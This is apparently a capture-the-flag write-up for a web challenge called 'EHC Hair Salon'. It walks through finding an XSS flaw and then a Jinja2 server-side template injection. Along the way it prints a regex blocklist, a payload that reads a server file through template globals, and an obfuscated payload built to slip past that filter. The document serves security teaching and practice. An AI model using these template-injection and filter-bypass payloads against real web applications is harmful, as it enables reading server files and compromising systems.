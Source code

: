 # EHC Hair Salon

![](./media/1.png)

**Category:** Web Exploitation

**Source code:**
[app.py](./media/app.py)

---

## 1. Analyze:

Messing around with the page, we can see a POST form in the main page.
![2](./media/2.png)

I tried insert a string: `aaaaa` and here's what I got.
![3](./media/3.png)

After inserting javascript, in this case: `<script>alert(1)</script>`, we can see that this page XSS vulnerability.

![4](./media/4.PNG)

From what I have learned, [XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) can possibly leads to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). We also know that we are unable to use any of these characters:

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
```

## 2. Payload
Basically, the idea is to inject the following payload to read flag.

```
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
But we can't do that, since it would trigger this:
```python
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)
```
Then, the `error_page` would be rendered instead. After some research, I found this payload from a CTF write-up which can bypass the `regex` filter:
```
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

Submit the payload and we get: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`
## References
[SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file)

[Final payload](https://hackmd.io/@d4rkp0w4r/idekCTF-2021#Baby-JinJail-and-jinjail)
